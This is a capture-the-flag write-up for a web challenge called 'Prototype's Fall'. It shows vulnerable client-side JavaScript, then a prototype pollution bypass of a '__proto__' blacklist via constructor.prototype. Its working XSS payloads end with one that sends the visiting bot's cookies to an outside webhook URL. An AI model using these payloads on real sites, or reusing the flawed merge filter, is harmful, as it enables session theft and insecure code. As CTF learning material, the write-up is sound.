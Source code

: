 # Prototype's Fall

> The system's defenses are built on flawed foundations. Their inheritance isn't as robust as they believe. To exploit their weakness, don't just corrupt the blueprint; manipulate the very essence of their creation – the constructor itself. Twist its purpose, and watch their reality crumble.

![image](./images/pf1.png)

## Observations

Inspecting the source code and outgoing requests

### Cycle Light Sequence

The button makes a GET request with query param `config: {"darkMode": true}`.

### Bot

A bot visits the URL we provide in the text box.

### getEnv()

```javascript

// Returns the current env setup. Totally hardcoded because who has time for flexibility? No params, just deal with it.
function getEnv() {
    return {
        // devMode: true, // Keeping devMode commented out for production sanity.
        log: false, // Access logs... too boring for us.
    }
}

// Merges two objects deeply. Because shallow merges are for the well-rested.
function deepMerge(dest, src) {
    for (let key in src) {
        if (!src.hasOwnProperty(key)) {
            continue
        }
        if (typeof src[key] !== 'object') {
            dest[key] = src[key];
            continue
        } else if (key === '__proto__') { // This input sanitization? Prototype pollution doesn't stand a chance.
            continue;
        }

        if (!dest[key]) {
            if (Array.isArray(src[key])) {
                dest[key] = []
            } else {
                dest[key] = {};
            }
        }
        deepMerge(dest[key], src[key]);
    }
}

// Gets the config. Defaults, env vars, all that jazz.
function getConfig() {
    config = {
        darkMode: true,
        username: "Anonymous",
    }
    const url = new URL(window.location.href);
    const params = new URLSearchParams(url.search);
    userConfig = JSON.parse(params.get("config"))
    deepMerge(config, userConfig);
    return config
} 
```

### devMode, safeHTML

```javascript
config = getConfig()
if (getEnv().log) console.log(`Config: darkMode:${config.darkMode} username:${config.username}`)

body = document.getElementById("body");
if (config.darkMode) {
    body.classList.add('dark-mode')
} else {
    body.classList.add('light-mode')
}

document.getElementById("toggle-dark-mode").addEventListener('click', function () {
    if (!userConfig) {
        userConfig = {}
    }
    userConfig.darkMode = !config.darkMode
    console.log("user config:", userConfig)

    const currentUrl = new URL(window.location.href)
    currentUrl.searchParams.set("config", JSON.stringify(userConfig))
    window.location.href = currentUrl.toString()
});

// NEXT: Add a child in a safe way. For now, only do this in dev mode.
if (getEnv().devMode) {
    console.log("append child")
    child = document.createElement('div');
    child.innerHTML = getEnv().safeHTML;
    document.body.appendChild(child)
}
```

## Approach

### Prototype Pollution

The `config` param can be used to pollute the prototype, thanks to the `deepMerge()` function

The key "__proto__" is blacklisted, so [found another way](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Prototype%20Pollution):

```text
/?config={"constructor":{"prototype":{"devMode":true}}}
```

![image](./images/pf2.png)

The presence of "undefined" indicates that the attack was successful; `devMode` is set to true and `safeHTML` (which is undefined) is added to the html of the page

### XSS

The bot may have the flag as a cookie (this is a classic setup in CTFs)

We know there is `safeHTML` being added to the html of the page, which can be used to perform XSS to make the bot leak the cookie

Trying it out in browser:

```text
/?config={"constructor":{"prototype":{"devMode":true,"safeHTML":"<img src=x onerror='alert(\"flag\")'>"}}}
```

![image](./images/pf3.png)

Worked!

Time for the final blow! Enter the payload (URL-encode it just to be safe) in the text box and send the bot:

```text
/?config={"constructor":{"prototype":{"devMode":true,"safeHTML":"<img src=x onerror='fetch(\"https://webhook.site/7e300cd1-041a-447c-8c7a-1fce27998e04/?cookie=\"+document.cookie)'>"}}}
```

![image](./images/pf4.png)

Got the flag!
